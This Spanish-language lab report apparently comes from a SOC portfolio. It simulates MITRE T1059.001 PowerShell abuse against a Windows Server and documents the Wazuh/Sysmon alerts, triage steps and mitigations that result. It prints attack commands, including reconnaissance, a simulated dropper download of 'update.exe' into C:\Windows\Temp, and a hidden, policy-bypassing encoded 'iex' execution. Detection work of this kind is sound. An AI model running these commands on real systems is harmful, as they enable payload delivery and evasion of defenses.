



# T1059.001 — Command and Scripting Interpreter: PowerShell

## Metadata
| Campo | Detalle |
|---|---|
| Técnica MITRE | T1059.001 - PowerShell |
| Táctica | Execution, Defense Evasion |
| Fecha | 2026-06-04 |
| Agente objetivo | windows-victim (Windows Server 2022) |
| Herramienta de ataque | PowerShell nativo de Windows |

---

## Objetivo
Simular un atacante abusando de PowerShell para ejecutar comandos 
maliciosos con técnicas de evasión, y validar que Wazuh + Sysmon 
detectan el comportamiento anómalo con severidad apropiada.

---

## Entorno
- **Atacante:** Administrador local en windows-victim (simula post-compromise)
- **Víctima:** EC2 t3.micro, Windows Server 2022, Sysmon + agente Wazuh 4.14.5
- **SIEM:** Wazuh 4.14.5 en EC2 t3.small, us-east-1

---

## Descripción de la técnica
T1059.001 consiste en abusar de PowerShell — herramienta legítima de 
administración de Windows — para ejecutar comandos maliciosos. Es una 
de las técnicas más usadas en ataques reales porque:

- PowerShell es un proceso legítimo del sistema, difícil de bloquear
- Permite descargar y ejecutar código directamente en memoria
- Soporta ofuscación mediante comandos codificados en Base64
- Tiene acceso completo a la API de Windows y .NET framework
- Aparece en la mayoría de frameworks de ataque: Cobalt Strike, Empire, Metasploit

En entornos reales, PowerShell es el intérprete preferido de atacantes 
en la fase post-compromise para movimiento lateral, descarga de payloads 
y establecimiento de persistencia.

---

## Ejecución del ataque

**Comandos ejecutados en windows-victim (PowerShell como Administrador):**

```powershell
# 1 — Reconocimiento del sistema
Get-ComputerInfo | Select-Object CsName, OsName, OsVersion

# 2 — Enumeración de usuarios locales
Get-LocalUser

# 3 — Descarga simulada desde internet
Invoke-WebRequest -Uri "http://example.com" -OutFile "C:\Windows\Temp\update.exe"

# 4 — Ejecución con flags de evasión
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand aQBlAHgA
```

**Análisis de cada comando:**

| Comando | Técnica de evasión | Por qué es sospechoso |
|---|---|---|
| `Get-ComputerInfo` | Ninguna | Reconocimiento inicial |
| `Get-LocalUser` | Ninguna | Enumeración de cuentas |
| `Invoke-WebRequest` | Descarga a carpeta de sistema | Dropper simulado |
| `-EncodedCommand` | Base64 encoding | Ofuscación de payload |
| `-ExecutionPolicy Bypass` | Bypass de política | Evasión de controles |
| `-WindowStyle Hidden` | Ventana oculta | Evasión de usuario |

---

## Evidencia — Alertas generadas en Wazuh

### Resultado destacado: detección out-of-the-box con levels altos

A diferencia de T1053.005 y T1078, Wazuh detectó T1059.001 
correctamente sin necesidad de reglas personalizadas.

| Rule ID | Descripción | Level |
|---|---|---|
| 92213 | Executable file dropped in folder commonly used by malware | **15** |
| 92057 | PowerShell spawned a process executing a base64 encoded command | 12 |
| 92205 | PowerShell process created an executable file in Windows root | 9 |
| 92307 | New service creation found in registry | 3 |
| 61104 | Service startup type was changed | 3 |

**Rule 92213 level 15 es la alerta más crítica del proyecto hasta ahora.**

### Screenshots




---

## Análisis de detección

### Detección out-of-the-box — Efectiva
Esta técnica es el caso contrario a T1053 y T1078. Wazuh tiene reglas 
maduras para PowerShell porque es una técnica extremadamente común en 
ataques reales. Las reglas cubren:

- **Comportamiento del proceso** — PowerShell spawneando procesos hijos
- **Ubicación de archivos** — ejecutables dropeados en carpetas de sistema
- **Flags de evasión** — `-EncodedCommand`, `-ExecutionPolicy Bypass`
- **Patrones de ofuscación** — comandos Base64

### Hallazgo clave para el portafolio
La comparación entre técnicas revela un patrón importante:

| Técnica | Detección default | Regla personalizada necesaria |
|---|---|---|
| T1110 Brute Force |  Level 10 | No |
| T1053.005 Scheduled Task |  Level 3 | Sí — escalado a level 14 |
| T1078 Valid Accounts |  Level 8 | Sí — escalado a level 14 |
| T1059.001 PowerShell |  Level 15 | No |

**Conclusión:** La cobertura de Wazuh no es uniforme. Técnicas de 
ejecución visibles (brute force, PowerShell) tienen detección madura. 
Técnicas de persistencia silenciosa (scheduled tasks, cuentas locales) 
requieren tuning activo — exactamente el trabajo de un SOC analyst.

### ¿Por qué level 15 para 92213?
El archivo `update.exe` fue dropeado en `C:\Windows\Temp\` — una carpeta 
frecuentemente usada por malware real. Wazuh combina la ubicación 
sospechosa + el proceso origen (PowerShell) para escalar la severidad 
al máximo nivel disponible.

---

## ¿Qué haría un analista SOC Tier 1?

1. **Identificar el proceso** — ¿quién lanzó PowerShell? ¿cuál es el proceso padre?
2. **Analizar el comando Base64** — decodificarlo para ver el payload real
3. **Examinar el archivo dropeado** — hash, firma digital, reputación en VirusTotal
4. **Verificar conexiones de red** — ¿`Invoke-WebRequest` contactó un C2 real?
5. **Buscar persistencia** — ¿se creó alguna tarea programada o registro?
6. **Aislar el endpoint** — level 15 requiere contención inmediata
7. **Escalar a Tier 2** — análisis forense del archivo y la sesión de PowerShell

**Decodificar el comando Base64 como haría un analista:**
```bash
echo "aQBlAHgA" | base64 -d
# Output: iex
# IEX = Invoke-Expression — el comando más usado para ejecutar código remoto
```

---

## Falsos positivos posibles
- Scripts legítimos de administración que usan `-ExecutionPolicy Bypass`
- Software de deployment que dropea ejecutables en carpetas temporales
- Mitigación: correlacionar con ventanas de mantenimiento y lista de 
  scripts aprobados por IT

---

## Comparación con técnicas anteriores

| Aspecto | T1059.001 | T1053.005 | T1078 |
|---|---|---|---|
| Visibilidad | Alta — Sysmon captura todo | Media — requiere canal específico | Baja — usa sistema nativo |
| Detección Wazuh | Excelente out-of-the-box | Requiere tuning | Requiere tuning |
| Nivel de urgencia | Crítico (level 15) | Alto (level 14 custom) | Alto (level 14 custom) |
| Dificultad de evasión | Media | Alta | Alta |

---

## Mitigaciones recomendadas
- Habilitar PowerShell Script Block Logging para capturar comandos completos
- Implementar Constrained Language Mode en PowerShell
- Bloquear `-EncodedCommand` para usuarios no administrativos via AppLocker
- Monitorear escritura de ejecutables en `C:\Windows\Temp\` con FIM
- Usar Windows Defender Attack Surface Reduction (ASR) rules

---

## Referencias
- [MITRE ATT&CK T1059.001](https://attack.mitre.org/techniques/T1059/001/)
- [Sysmon EventID 1 - Process Create](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [PowerShell Security Best Practices](https://learn.microsoft.com/en-us/powershell/scripting/security/security-features)
